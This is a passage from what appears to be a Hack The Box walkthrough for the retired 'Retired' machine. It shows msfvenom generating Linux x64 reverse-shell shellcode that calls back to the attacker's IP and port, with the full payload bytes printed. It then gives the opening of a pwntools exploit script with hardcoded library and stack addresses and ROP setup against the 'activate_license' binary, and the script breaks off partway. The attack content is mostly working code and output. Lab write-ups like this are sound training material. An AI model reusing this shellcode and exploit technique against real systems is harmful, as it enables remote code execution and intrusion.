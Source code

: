 We also need a payload. We can use msfvenom to create shellcode in Python friendly format which points to our current Kali IP and port:

```sh
┌──(root㉿kali)-[~/htb/retired]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.198 LPORT=4444 -f py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of py file: 373 bytes
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x0a\x0a\x0e\xc6\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
```

## Final Exploit Script

Now we can put together our script:

```python
from pwn import *
import requests

## Set Runtime variables
context.binary = './activate_license'
## Change the value of int to what we retrieved above
libc_start = int('7fb1ff018000', 16)
## Path to the binary on the box which we found earlier
libc_path = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"
## Change the value of int to what we retrieved above
libsqlite_start = int('7fb1ff1dd000', 16)
## Path to the binary on the box which we found earlier
libsqlite_path = "/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6"
## Change the value of int to what we retrieved above
stack_start = int('7fffddc82000', 16)
stack_end  = int('7fffddca3000', 16)
## Calculate length of stack
stack_length = stack_end - stack_start
## Paste shellcode from msfvenom we created earlier, make sure you have your Kali IP and port
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x0a\x0a\x0e\xc6\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
## Use pwntools to create an object of the libc-2.31.so file we downloaded
libc          = ELF("./libc-2.31.so",checksec=False)
## Set start address to value we set above
libc.address  = libc_start
## Use pwntools to create an object of the libspqlite3.so.0.8.6 file we downloaded
libsql        = ELF("./libsqlite3.so.0.8.6",checksec=False)
## Set start address to value we set above
libsql.address = libsqlite_start
## Use pwntools ROP function to create an oject containing the libc and libsql objects we created above
rop            = ROP([libc, libsql])
## Look at the symbols table for value of mprotect in the libc object we created above
mprotect = libc.symbols['mprotect']
## Look in the rop object created above for the following register addresses
```